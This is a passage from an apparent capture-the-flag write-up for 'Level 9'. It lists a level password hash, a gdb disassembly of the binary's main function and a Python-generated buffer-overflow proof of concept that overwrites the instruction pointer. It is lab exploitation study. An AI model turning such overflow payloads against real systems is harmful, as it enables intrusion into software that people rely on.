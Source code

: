 ## Level 9

level9:c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

if  (argc == 1): exit; else: \_Znwj(0x6c)
```
   0x080485fe <+10>:    cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
```


Modifing EIP - poc
```
(gdb) r $(python -c 'import struct;print("A"*108+struct.pack("I", 0xbffff90b) + " CCCC")')
...
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```
